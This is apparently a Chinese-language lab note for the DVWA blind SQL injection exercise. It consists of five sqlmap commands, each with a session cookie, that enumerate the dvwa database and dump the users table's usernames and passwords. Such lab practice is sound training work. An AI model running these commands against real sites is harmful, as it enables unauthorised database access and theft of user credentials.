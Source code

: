![image-20250219151546703](../../_media/image-20250219151546703.png)



爆库

```
python sqlmap.py -u "http://192.168.10.129:3000/vulnerabilities/sqli_blind/" --data "id=1&Submit=Submit"  --cookie="PHPSESSID=c5emugcincc74avtcvj0f65mns; security=medium" --dbs
```



爆表

```
python sqlmap.py -u "http://192.168.10.129:3000/vulnerabilities/sqli_blind/" --data "id=1&Submit=Submit"  --cookie="PHPSESSID=c5emugcincc74avtcvj0f65mns; security=medium" -D dvwa --tables
```



爆列

```
python sqlmap.py -u "http://192.168.10.129:3000/vulnerabilities/sqli_blind/" --data "id=1&Submit=Submit"  --cookie="PHPSESSID=c5emugcincc74avtcvj0f65mns; security=medium" -D dvwa -T users --columns
```



爆用户字段

```
python sqlmap.py -u "http://192.168.10.129:3000/vulnerabilities/sqli_blind/" --data "id=1&Submit=Submit"  --cookie="PHPSESSID=c5emugcincc74avtcvj0f65mns; security=medium" -D dvwa -T users -C user --dump
```



爆密码字段

```
python sqlmap.py -u "http://192.168.10.129:3000/vulnerabilities/sqli_blind/" --data "id=1&Submit=Submit"  --cookie="PHPSESSID=c5emugcincc74avtcvj0f65mns; security=medium" -D dvwa -T users -C password --dump
```
